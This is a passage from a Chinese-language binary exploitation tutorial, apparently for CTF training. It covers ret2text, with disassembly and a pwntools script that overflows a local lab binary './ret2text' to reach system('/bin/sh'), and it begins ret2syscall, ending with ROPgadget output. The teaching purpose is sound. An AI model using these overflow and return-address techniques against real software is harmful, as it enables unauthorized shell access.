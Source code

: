 ## 寻找跳板
在代码段发现调用 system("/bin/sh") 的代码，那么直接将ret覆盖为0804863A就能拿到shell
```
.text:0804862D                 call    ___isoc99_scanf
.text:08048632                 mov     eax, [ebp+input]
.text:08048635                 cmp     eax, [ebp+secretcode]
.text:08048638                 jnz     short locret_8048646
.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641                 call    _system
.text:08048646
```

## 测试
```
from pwn import *

p = process('./ret2text')
ret_add = 0x0804863A
offset = 0x6c + 4

payload = 'A'*offset + p32(ret_add)
print(p32(ret_add))

p.sendline(payload)

p.interactive()
```

-----------

# 0x03 ret2syscall
## 原理
ret2syscall，即控制程序执行系统调用，获取 shell。上一个可以在代码段找到system('/bin/sh'),
如果没法找到的话，我们就得自己去构造系统调用
简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell
`execve("/bin/sh",NULL,NULL)`
其中，该程序是 32 位，所以我们需要使得
```
系统调用号，即 eax 应该为 0xb
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
第二个参数，即 ecx 应该为 0
第三个参数，即 edx 应该为 0

```

## 获取跳板
那么我们如何去控制这4个寄存器的值，我们现在修改的只有栈中的数据，这里就需要使用 gadgets。比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因。具体寻找 gadgets 的方法，我们可以使用 ropgadgets 这个工具。
首先，我们来寻找控制 eax 的 gadgets
```
$ ROPgadget --binary ret2syscall --only 'pop|ret'|grep eax
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```
